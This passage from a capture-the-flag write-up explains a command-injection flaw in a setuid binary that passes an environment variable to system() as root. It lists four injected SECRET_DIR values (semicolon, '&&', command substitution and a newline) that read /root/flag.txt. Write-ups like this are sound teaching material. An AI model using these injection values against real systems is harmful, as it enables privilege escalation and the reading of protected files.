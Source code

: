 The program chose to read input from an environment variable rather than command-line arguments. This is actually a common pattern, but it doesn't make the program immune to injection attacks.

### The Execution Flow

```
1. User sets: SECRET_DIR="/root & cat /root/flag.txt"
                    ↓
2. Program reads: getenv("SECRET_DIR")
                    ↓
3. Constructs: "ls /root & cat /root/flag.txt"
                    ↓
4. Elevates privileges: setuid(0), setgid(0)
                    ↓
5. Executes as root: system("ls /root & cat /root/flag.txt")
                    ↓
6. Shell interprets & as command separator
                    ↓
7. Both commands run with root privileges
```

### Shell Metacharacter Interpretation

When `system()` is called, it actually executes:
```bash
/bin/sh -c "ls /root & cat /root/flag.txt"
```

The shell interprets `&` as a special character, not as a literal part of the path.

## Alternative Solutions

### Method 1: Semicolon Separator
```bash
export SECRET_DIR="/root; cat /root/flag.txt"
./bin
```

### Method 2: Logical AND
```bash
export SECRET_DIR="/root && cat /root/flag.txt"
./bin
```

### Method 3: Command Substitution
```bash
export SECRET_DIR='$(cat /root/flag.txt) /root'
./bin
```

### Method 4: Newline Injection
```bash
export SECRET_DIR=$'/root\ncat /root/flag.txt'
./bin
```
